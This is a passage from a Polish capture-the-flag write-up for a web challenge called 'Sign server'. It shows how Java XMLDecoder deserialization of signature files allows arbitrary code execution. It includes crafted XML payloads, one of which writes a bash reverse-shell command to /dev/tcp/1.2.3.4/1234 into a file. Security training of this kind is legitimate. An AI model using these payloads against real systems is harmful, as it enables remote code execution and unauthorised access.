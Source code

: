 ﻿##Sign server (Web, 100p)

	Document signature is so hot right now! 
	SignServer provides you with the most advanced solution to sign and verify your documents. 
	We support any document types and provide you with a unique, ultra-secure signature.

###PL
[ENG](#eng-version)

W zadaniu dostępna jest strona, która generuje podpis dla wybranego przez nas pliku, oraz pozwala na weryfikacje takiego podpisu.
Istotny fakt jest taki, że pliki z podpisem wyglądają tak:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_72-internal" class="java.beans.XMLDecoder">
 <object class="models.CTFSignature" id="CTFSignature0">
  <void class="models.CTFSignature" method="getField">
   <string>hash</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>da39a3ee5e6b4b0d3255bfef95601890afd80709</string>
   </void>
  </void>
  <void class="models.CTFSignature" method="getField">
   <string>sig</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>12a626d7c85bcc21d9f35302e33914104d8329a0</string>
   </void>
  </void>
 </object>
</java>
```

Można więc zauważyć, że serialiazcja obiektu z podpisem, oraz zapewne deserializacja wykorzystaują klasy XMLEncoder i XMLDecoder.
Występuje tu podatność podobna do Pythonowego Pickle - deserializacja jest w stanie wykonywać praktycznie dowolny kod, o ile plik zostanie odpowiednio przygotowany.

Możemy na przykład utworzyć dowolny obiekt używając tagu `<object>` a następnie podając parametry konstruktora, na przykład:

```xml
<object class = "java.io.PrintWriter">
	<string>reverse.sh</string>
</object>
```
Wykona `new PrintWriter("reverse.sh");`

Możemy też wykonywać dowolne metody na takim obiekcie za pomocą tagów `<method>` oraz `<void>` i tak na przykład:

```xml
<object class = "java.io.PrintWriter">
	<string>reverse.sh</string>
	<method name = "write">
		<string>bash -i >& /dev/tcp/1.2.3.4/1234 0>&1</string>
	</method>
	<method name = "close"/>
</object>
```
